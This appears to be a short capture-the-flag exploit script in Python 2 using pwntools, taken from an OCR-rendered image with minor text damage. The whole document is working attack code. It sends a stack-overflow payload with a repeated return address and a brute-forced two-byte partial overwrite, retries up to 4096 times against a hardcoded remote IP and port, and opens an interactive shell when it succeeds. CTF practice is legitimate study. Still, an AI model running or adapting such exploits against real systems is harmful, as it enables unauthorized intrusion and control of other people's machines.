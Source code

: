 ```

context.binary = elfpath



elf = ELF (elf path)
bits = elf.bits





def exp(ip, port):

    for i in range(0x1000):

        if args['REMOTE']:

            p = remote(ip, port)

        else:

            p = process(elfpath, timeout=2)

        # gdb.attach(p)

        try:

            payload = 0x18 * 'a' + p64(0x40059B)

            for _ in range(2):

                payload += 'a' * 8 * 5 + p64(0x40059B)

            payload += 'a' * 8 * 5 + p16(i)

            p.sendline(payload)

            data = p.recv()

            print data

            p.interactive()

            p.close()

        except Exception:

            p.close()

            continue





if __name__ == "__main__":

    exp('106.75.4.189', 35273)

```
